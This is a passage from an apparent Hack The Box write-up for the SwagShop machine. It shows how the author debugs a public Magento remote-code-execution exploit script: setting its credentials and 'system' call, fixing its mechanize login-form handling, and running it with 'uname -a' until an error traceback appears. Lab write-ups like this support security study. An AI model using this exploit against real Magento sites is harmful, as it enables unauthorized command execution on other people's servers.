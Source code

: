 
## TCP/80 (HTTP) - Magento RCE, debugging/fixing the exploit
1. Change Config options
	```
	# Config.
	username = 'forme'
	password = 'forme'
	php_function = 'system'  
	install_date = 'Wed, 08 May 2019 07:23:09 +0000' # Obtained from /app/etc/local.xml
	```
1. Fix `no control matching name 'login[password]'` 
	![]({{ page.img_path }}Pasted%20image%2020220912191901.png)
	1. Gets the response of the specified URL, store it in `request`
		```
		request = br.open(target)
		```
	2. Select the first form it sees
		```
		br.select_form(nr=0)
		```
	3. Add username control
		```
		br.form.new_control('text', 'login[username]', {'value': username})  
		```
	4. Normalise form after all controls have been added.
		```
		br.form.fixup()
		```
	5. Set username field to our specified username & password - `forme:forme`
		```
		br['login[username]'] = username
		br['login[password]'] = password
		```
		![]({{ page.img_path }}Pasted%20image%2020220912194750.png)
	6. Earlier, `http://swagshop.htb/index.php` is specified, therefore, the login form is not there, instead we have to change the URL to `http://swagshop.htb/index.php/admin`
		```
		┌──(magento-exploit)(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# python2 37811.py http://swagshop.htb/index.php/admin "uname -a"
		Traceback (most recent call last):
		  File "37811.py", line 55, in <module>
		    br['login[username]'] = username
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__
		    self.form[name] = val
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1963, in __setitem__
		    control = self.find_control(name)
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2355, in find_control
		    return self._find_control(name, type, kind, id, label, predicate, nr)
		  File "/root/htb/swagshop/10.10.10.140/exploit/magento-exploit/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2446, in _find_control
		    description)
		mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
		```
		- `more than one control matching name 'login[username]'`
2. Fix `more than one control matching name 'login[username]'`
	1. The error is suggesting that there are more than one `login[username]`, which is strange